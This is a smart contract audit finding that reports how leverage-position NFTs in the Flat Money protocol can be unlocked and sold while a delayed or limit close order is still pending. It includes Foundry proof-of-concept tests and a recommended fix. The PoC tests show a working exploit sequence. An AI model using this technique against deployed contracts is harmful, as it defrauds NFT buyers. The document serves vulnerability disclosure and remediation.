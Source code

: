Droll Ash Cricket

high

# `LeverageModule` NFT can be unlocked when there is a pending order

## Summary

When canceling a delayed order, the NFT representing the leverage position is unlocked even if there is a pending limit order, and vice versa.

## Vulnerability Detail

When the owner of an NFT representing a leverage position announces a delayed close order, [the NFT is locked](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L361) so that it cannot be transferred to another address.

If the owner decides to cancel the close order [the NFT is unlocked](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L465) so that it can be transferred again.

The same logic is used for limit orders, where [the NFT is locked](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L76) on limit order announcement and [unlocked](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L94) on limit order cancellation.

The problem is that both kinds of orders are managed in different contracts and when canceling an order the NFT is unlocked even if there is a pending order in the other contract.

This means that the owner of the NFT can transfer the NFT to another address while there is yet a pending order over the position. This is especially dangerous in the case where the pending order is a delayed order, as in this case the recipient of the underlying tokens sent on the order execution is [the address that created the order](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L619) as it is not checked again the creator of the order is the owner of the NFT.

In the case the pending order is a limit order, the previous owner will not receive the underlying tokens, as they are sent [to the current owner of the NFT](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L141). However, this is still an issue as the new owner has his position closed out of his will and possibly at a bad price. It is also important to mention that given that the limit order does not expire, it is very likely for this order to be executed at some point unless the new owner realizes the issue and cancels the order.

## Impact

The owner of an NFT that represents a leverage position can sell the NFT and execute the close of the position, receiving also the underlying tokens (in the case of a delayed order) or having the position closed at a bad price for the new owner (in the case of a limit order).

## Code Snippet

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L458-L466

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L87-L97

## Proof of concept

The following tests show the two cases mentioned in the vulnerability detail section.
They can be added to the `CancelDepositTest` contract and run with `forge test --mt testUnlockNftWithPending`.

```solidity
    function testUnlockNftWithPendingDelayedOrder() public {
        setWethPrice(2000e8);
        skip(120);

        announceAndExecuteDeposit({
            traderAccount: carol,
            keeperAccount: keeper,
            depositAmount: 100e18,
            oraclePrice: 2000e8,
            keeperFeeAmount: 0
        });

        // Alice opens a leverage position 
        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            margin: 100e18,
            additionalSize: 100e18,
            oraclePrice: 2000e8,
            keeperFeeAmount: 0
        });

        // Announces a limit order
        vm.prank(alice);
        limitOrderProxy.announceLimitOrder({
            tokenId: tokenId,
            priceLowerThreshold: 1500e8,
            priceUpperThreshold: 2500e8
        });

        // Anounces leverage close
        announceCloseLeverage({traderAccount: alice, tokenId: tokenId, keeperFeeAmount: 0});
        
        // Cancels limit order, which unlocks the NFT, even though the delayed close order is still pending
        vm.prank(alice);
        limitOrderProxy.cancelLimitOrder(tokenId);

        // Alice transfers the NFT to Bob
        vm.prank(alice);
        leverageModProxy.transferFrom(alice, bob, tokenId);
        assertEq(leverageModProxy.ownerOf(tokenId), bob);

        skip(uint256(vaultProxy.minExecutabilityAge()));
        setWethPrice(2500e8);
        bytes[] memory priceUpdateData = getPriceUpdateData(2500e8);
        uint256 aliceBalanceBefore = WETH.balanceOf(alice);

        // Delayed order is executed. Alice receives the funds and Bob's NFT is burned
        delayedOrderProxy.executeOrder{value: 1}(alice, priceUpdateData);
        uint256 aliceBalanceAfter = WETH.balanceOf(alice);
        assertGt(aliceBalanceAfter, aliceBalanceBefore);
    }

    function testUnlockNftWithPendingLimitOrder() public {
        setWethPrice(2000e8);
        skip(120);

        announceAndExecuteDeposit({
            traderAccount: carol,
            keeperAccount: keeper,
            depositAmount: 100e18,
            oraclePrice: 2000e8,
            keeperFeeAmount: 0
        });

        // Alice opens a leverage position 
        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            margin: 100e18,
            additionalSize: 100e18,
            oraclePrice: 2000e8,
            keeperFeeAmount: 0
        });

        // Announces a limit order
        vm.prank(alice);
        limitOrderProxy.announceLimitOrder({
            tokenId: tokenId,
            priceLowerThreshold: 1500e8,
            priceUpperThreshold: 2500e8
        });

        // Anounces leverage close
        announceCloseLeverage({traderAccount: alice, tokenId: tokenId, keeperFeeAmount: 0});

        skip(vaultProxy.maxExecutabilityAge() + vaultProxy.minExecutabilityAge() + 1);
        
        // Leverage close is executed, which unlocks the NFT, even though the limit order is still pending
        delayedOrderProxy.cancelExistingOrder(alice);

        // Alice transfers the NFT to Bob
        vm.prank(alice);
        leverageModProxy.transferFrom(alice, bob, tokenId);
        assertEq(leverageModProxy.ownerOf(tokenId), bob);

        setWethPrice(1500e8);
        bytes[] memory priceUpdateData = getPriceUpdateData(1500e8);
        uint256 bobBalanceBefore = WETH.balanceOf(bob);

        // Limit order is executed for Bob
        limitOrderProxy.executeLimitOrder{value: 1}(tokenId, priceUpdateData);
        uint256 bobBalanceAfter = WETH.balanceOf(bob);
        assertGt(bobBalanceAfter, bobBalanceBefore);
    }
```

## Tool used

Manual Review

## Recommendation

Before unlocking the NFT on order cancellation in `DelayedOrder` and `LimitOrder`, call the other contract to check if there is a pending order for the same NFT. If so, do not unlock the NFT.